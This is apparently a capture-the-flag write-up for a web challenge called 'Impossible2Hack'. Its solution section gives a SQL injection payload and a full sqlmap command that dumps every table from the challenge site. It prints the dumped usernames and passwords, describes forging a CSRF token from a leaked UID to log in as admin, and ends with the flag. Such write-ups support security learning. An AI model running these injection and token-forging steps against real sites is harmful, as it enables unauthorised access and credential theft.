




# Impossible2Hack (400)

Category - Web

Challenge Question

I developed a new website and I am absolutely sure you cannot find any vulnerabilities in it

The following are the debugging credentials: username : test password : test

The Flag should be wrapped in aCTF{}

Link 1: https://impossible.pythonanywhere.com/

Hints
1) Was this the response that you were expecting?
2) It won't kill you to say please when requesting :)
3) Look for something suspicious in the request? Can you find what's wrong?

## Solution

We see there is a user login page. Let's run sql injection on it. Mostly your payload is a Boolean based with a UNION like `' 1=1 UNION SELECT * FROM USERS --` but rather than guessing all the time you could use a tool like [`sqlmap`](https://sqlmap.org/) that automates sql injections for you.

`sqlmap -u "https://impossible.pythonanywhere.com/" --data "username=*&password=*" --dump-all --risk=3 --level=5 --drop-set-cookie`



```
+----------+------------------------------------+-----------------+
| UID      | password                           | username        |
+----------+------------------------------------+-----------------+
| 53e51d8b | TeslaFTW                           | Nikola Tesla    |
| 8f9f50a3 | Mode0Activate                      | Rampage         |
| 31ea43b9 | Person                             | Human           |
| 1e800c34 | Teen Titans                        | Cyborg          |
| 6d9ec615 | SuperSecretPasswordImpossibleToGet | John Doe        |
| 0cbc1ff5 | Person                             | Beastboy        |
| 9e09a040 | test                               | test            |
| abebc66d | SuperSecretPasswordImpossibleToGet | admin1          |
| c8604e39 | lalalala                           | Bshpmszz        |
| e19fe490 | kongking                           | Kong.Donkey     |
| 1eaacb8b | HotChips                           | FriskyDemon     |
| ae953d76 | Whistle                            | Josh Hutcherson |
| 881510f9 | NeverGonnaGiveYouUp                | Rick Astley     |
| c81a8de8 | Spectre                            | BlueSmurf       |
| 2fbbbc70 | GangGang                           | Phoenix         |
| 61b07533 | adminabbbebeboeqfoe                | admin2          |
| 11cf0ead | djebfoewfbb                        | admin0          |
+----------+------------------------------------+-----------------+
```

We have all users. We need to login as admin. As all hints suggest we need to edit something more in the request headers. Opening the request in burpsuite.



normally csrf tokens are very large, but this one is small and the same size as uuid in the sql table we have gotten. let's input admin1 uid as the csrf token and login as admin1.

Turn on intercept and change the values of the request parameters.





`aCTF{G0t_H@Ck3D_1NdE3D}`


We are thinking hint 2 might be a hint for friend or foe